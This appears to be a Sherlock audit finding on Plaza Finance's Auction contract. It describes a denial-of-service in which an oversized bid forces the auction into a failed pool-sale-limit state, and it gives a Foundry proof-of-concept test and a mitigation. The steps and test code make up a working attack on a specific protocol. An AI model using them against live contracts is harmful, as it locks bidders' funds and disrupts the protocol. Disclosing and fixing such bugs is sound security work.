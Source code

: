 Trendy Carbon Buffalo

Medium

# Auction can be DoSed through bid manipulation leading to guaranteed FAILED_POOL_SALE_LIMIT state

Likelihood :  Medium
Severity :  Medium 


### Description:
The auction can be manipulated to always fail by exploiting the lack of proper validation on `buyReserveAmount` in relation to the pool's sale limit. An attacker can place a bid with a very high `buyReserveAmount` that would exceed the pool's sale limit, forcing the auction into a `FAILED_POOL_SALE_LIMIT` state.

The only restrictions on `buyReserveAmount` are:


https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L128-L129

When the auction ends, it checks:

https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L341-L342

An attacker can:

1. Wait for legitimate bids to be placed
2. Place a bid with `buyReserveAmount` high enough to make `totalSellReserveAmount` exceed the pool's sale limit
3. When `endAuction()` is called, the auction will enter `FAILED_POOL_SALE_LIMIT` state
4. All legitimate bidders will have their funds locked for the duration of the auction

The attack can be executed at minimal cost, as the attacker only needs enough coupon tokens to fill a single open bid slot. However, this presumes at least one slot remains unoccupied if all slots are taken, the attacker would instead have to outbid an existing bid, potentially increasing their required capital.

### Impact:

- Auction mechanism can be consistently forced to fail
- User funds are locked for the 10-day auction period
- Core protocol functionality is disrupted
- Loss of gas fees for legitimate bidders
- Protocol loses ability to generate USDC for coupon payments

### Proof of concet:

Past this into `AuctionTest` :

```solidity
    function setUp() public {
        usdc = new Token("USDC", "USDC", false);
        weth = new Token("WETH", "WETH", false);

        pool = createPool(address(weth), address(usdc));
        useMockPool(pool);

        vm.startPrank(pool);
        auction = Auction(
            Utils.deploy(
                address(new Auction()),
                abi.encodeWithSelector(
                    Auction.initialize.selector,
                    address(usdc),
                    address(weth),
                    1000000000000,
                    block.timestamp + 10 days,
                    300,  //@audit maxBids (reduced from 1000)
                    house,
                    110
                )
            )
        );
        vm.stopPrank();
    }

    function test_dos_auction() public {
        uint256 sizeAmount = auction.totalBuyCouponAmount() / auction.maxBids();

        address attacker = makeAddr("attacker");
        vm.label(attacker, "attacker");
        usdc.mint(attacker, sizeAmount * 10);

        for (uint256 i = 0; i < 299; i++) {
            address newBidder = address(uint160(i + 1));
            vm.startPrank(newBidder);
            usdc.mint(newBidder, sizeAmount);
            usdc.approve(address(auction), sizeAmount);
            auction.bid(100, sizeAmount);
            vm.stopPrank();
        }

        vm.startPrank(attacker);
        usdc.approve(address(auction), sizeAmount * 10);
        auction.bid(auction.totalSellReserveAmount(), sizeAmount);
        vm.warp(auction.endTime() + 1);
        auction.endAuction();
        vm.expectRevert(abi.encodeWithSignature("AuctionFailed()"));
        auction.claimBid(300);
    }


```

### Recommended Mitigation:

 **Proposed Hybrid Approach**

 - **While Bid Slots Are Still Open**: Maintain a **dynamic threshold** that disallows any new bid if adding it would push `totalSellReserveAmount` above `((poolBalance *poolSaleLimit) / 100)`. This prevents a malicious actor from flooding the auction with an oversized initial bid that instantly dooms it to `FAILED_POOL_SALE_LIMIT`.
 - **Once All Bid Slots Are Filled**: Disabling (or relaxing) that threshold can be reasonable if a new bidder is _required_ to outbid an existing one to claim a slot. In this scenario, placing a dramatically huge `buyReserveAmount` simultaneously demands a proportionally large `sellCouponAmount`, so an attacker faces significant upfront capital requirements—and no longer trivially forces the auction to fail at minimal cost.

This way:

1. **Open Slots → Strict Threshold**
   - Prevents early “mega-bids” that push the auction into a guaranteed fail state.
2. **Full Slots → Bid Replacement Logic**
   - Bidders must “beat” an existing bid, which demands more capital, thereby naturally deterring malicious out-of-scale bidding (since they’d risk far more collateral). If someone truly bids that high, they bear the cost.

Overall, this balances the desire to keep auctions competitive with the need to block cheap, malicious overbids that lock or ruin the entire process.
